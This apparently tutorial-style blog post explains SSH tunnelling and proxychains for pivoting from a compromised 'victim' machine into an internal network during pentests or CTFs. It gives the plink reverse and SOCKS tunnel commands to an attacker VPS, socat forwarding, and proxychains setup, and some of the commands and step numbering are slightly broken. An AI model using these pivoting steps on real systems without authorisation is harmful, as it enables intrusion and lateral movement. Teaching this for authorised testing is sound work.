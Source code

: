 ```yaml
---
layout: single
title:  "Understanding SSH Tunnelling and Proxychains"
---
```


Having a good knowledge on SSH tunnelling is an important tool in the arsenal for pentesting engagements and for playing networked Capture The Flag (CTF) events. 

# Problem Statement
We have gained an initial foothold on one of the internal system of an organization. Now, we want to run `nmap` scans on the internal networks to pivot laterally. The organization is also running an internally hosted website which is not accessible from outside. How do we expose the internal ports/traffic to the outside attacker machine so that we can run our tools and gain access to resources which are not exposed to the outside world?

# Cyber Range Setup
The setup of the cyber range is given in figure below:

![Deployment Architecture of Application](/musings/assets/images/2021-06-07-ssh-tunnel-fig-1.png){: .align-center }

# Actions at Victim Machine
## Step 1:
As we already have an initial foothold on the `victim` machine, we will start the `socate.exe`. This program will forward the traffic to its local port:
```
socate.exe TCP-LISTEN:8080,fork,reuseaddr TCP:<target-server-ip>:443
```
Once the traffic has been forwarded to a specific port, in our case `8080`, we can verify the same through `netstat` command:
```
# Now check if the port has been forwarded
netstat -ano // check connection
```
## Step 3:
We will redirect the traffic of the victim PC to the Virtual Private Server (VPS) through SSH tunnel, using `plink.exe` for windows.
```
# Connect with VPS
plink.exe -l <username> -pw <password> -R 8080:127.0.0.1:8080 <vps ip>
```

# Actions at VPS Machine
```
# To check with curl
/etc/hosts
127.0.0.1 <domain-name>
```
# Forward Traffic to Kali Machine from VPS
```
# On Kali Machine
ssh -g -L 8080:localhost:8080 -f -N <username>@<vps ip> // this use when want to open localhost
```
# Now open the browser and enter
```
http://<domain-name>:8080
```

# Configure SOCKS5 proxy
## Actions at victim machine
```
plink.exe -l <username> -pw <password> -D 8080:127.0.0.1:8080 <vps ip>
```
## Actions at VPS
### Install proxychains
```
$ yum install proxychains
$ nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```
## On Kali Machine
### Do settings in the browser, if we want to open websites in browser

### In case you want to use terminal for traffic and not browser, perform following steps
```
$ yum install proxychains

# nano /etc/proxychain.conf
socks5 <vps-public-ip> 8080
```
## Check on terminal
```
$ proxychains curl www.myweb.com
```

#### Reference
- https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d